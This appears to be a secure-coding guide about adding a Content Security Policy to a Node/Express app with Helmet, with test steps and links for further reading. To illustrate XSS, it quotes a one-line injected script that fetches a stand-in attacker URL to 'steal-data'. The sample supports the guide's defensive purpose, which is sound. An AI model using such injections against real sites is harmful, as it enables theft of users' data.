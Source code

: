 # Content Security Policy

This application doesn't use a Content Security Policy (CSP). CSP is an added layer of security that helps to mitigate certain types of attacks, such as Cross-Site Scripting (XSS) and data injection attacks. Without CSP, an attacker can inject malicious scripts.

For example, an attacker could find a vulnerability enabling them to inject a script:

```javascript
// Malicious script injection example
<script>fetch('https://malicious-website.com/steal-data')</script>
```

## Remediating the Vulnerability

To mitigate this vulnerability, we can add a CSP that only allows scripts from trusted sources.

### Update `index.js` to Include CSP Headers

```javascript
import helmet from 'helmet'; // Add this line

// Use Helmet to set security headers
app.use(helmet());

// Setting up CSP
app.use(
  helmet.contentSecurityPolicy({
    useDefaults: true,
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'"],
    },
  })
);

// Serve static files from the "views" directory
app.use(express.static('views'));

// Route to fetch data from the database
app.get('/data', async (req, res) => {
  const db = await open({
    filename: './database.sqlite',
    driver: sqlite3.Database,
  });
  const rows = await db.all('SELECT * FROM data');
  res.json(rows);
});

// Start the Express server
app.listen(PORT, async () => {
  console.log(`App running at http://localhost:${port}`);

  // Initialize database and create table
  const db = await open({
    filename: './database.sqlite',
    driver: sqlite3.Database,
  });

  await db.exec(
    'CREATE TABLE IF NOT EXISTS data (id INTEGER PRIMARY KEY, value TEXT)'
  );
  const existingData = await db.all('SELECT * FROM data');
  if (existingData.length === 0) {
    await db.run('INSERT INTO data (value) VALUES (?)', ['Sample data']);
  }
});
```

## Explanation and Verification

By using the Helmet middleware, especially its CSP module, we add critical HTTP headers to prevent most forms of XSS attacks. The `defaultSrc` and `scriptSrc` directives ensure that only scripts from our own domain are allowed.

### Testing the Fix

- Start the server and visit <http://localhost:3000>
- Open your browser's developer tools (F12) and navigate to the 'Network' or 'Console' tab.
- Ensure that the CSP headers are applied correctly.
- Verify that inline scripts and external scripts from untrusted sources are blocked by attempting to inject malicious scripts and observing if they get blocked.

## Further Reading

- [Mozilla Developer Network on CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [OWASP CSP Guide](https://owasp.org/www-project-cheat-sheets/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- [Portswigger CSP Article](https://portswigger.net/web-security/csp)
